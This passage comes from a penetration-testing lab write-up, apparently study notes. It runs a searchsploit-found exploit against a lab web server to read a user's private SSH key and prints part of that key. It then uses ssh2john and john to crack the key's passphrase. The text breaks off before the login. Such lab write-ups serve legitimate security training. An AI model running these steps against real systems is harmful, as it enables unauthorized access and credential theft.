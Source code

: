 ### Initial Foothold

Examining an exploit found via searchsploit:

{% code overflow="wrap" %}
```bash
kali@kali:~/beyond$ searchsploit -x 50420
```
{% endcode %}

Using the exploit to get **daniela**'s private ssh key:

{% code overflow="wrap" %}
```bash
kali@kali:~/beyond/websrv1$ python3 50420.py http://192.168.50.244 /home/daniela/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBAElTUsf
3CytILJX83Yd9rAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQDwl5IEgynx
KMLz7p6mzgvTquG5/NT749sMGn+sq7VxLuF5zPK9sh//lVSxf6pQYNhrX36FUeCpu/bOHr
tn+4AZJEkpHq8g21ViHu62IfOWXtZZ1g+9uKTgm5MTR4M8bp4QX+T1R7TzTJsJnMhAdhm1
...
UoRUBJIeKEdUlvbjNuXE26AwzrITwrQRlwZP5WY+UwHgM2rx1SFmCHmbcfbD8j9YrYgUAu
vJbdmDQSd7+WQ2RuTDhK2LWCO3YbtOd6p84fKpOfFQeBLmmSKTKSOddcSTpIRSu7RCMvqw
l+pUiIuSNB2JrMzRAirldv6FODOlbtO6P/iwAO4UbNCTkyRkeOAz1DiNLEHfAZrlPbRHpm
QduOTpMIvVMIJcfeYF1GJ4ggUG4=
-----END OPENSSH PRIVATE KEY-----

```
{% endcode %}

Making the private key usable and finding it has a passphrase:

{% code overflow="wrap" %}
```bash
kali@kali:~/beyond/websrv1$ chmod 600 id_rsa

kali@kali:~/beyond/websrv1$ ssh -i id_rsa daniela@192.168.50.244
Enter passphrase for key 'id_rsa': 
```
{% endcode %}



Cracking the passphrase on the private key:

{% code overflow="wrap" %}
```bash
kali@kali:~/beyond/websrv1$ ssh2john id_rsa > ssh.hash

kali@kali:~/beyond/websrv1$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
...
tequieromucho    (id_rsa) 
...
```
{% endcode %}

Using the private key with the cracked passphrase:
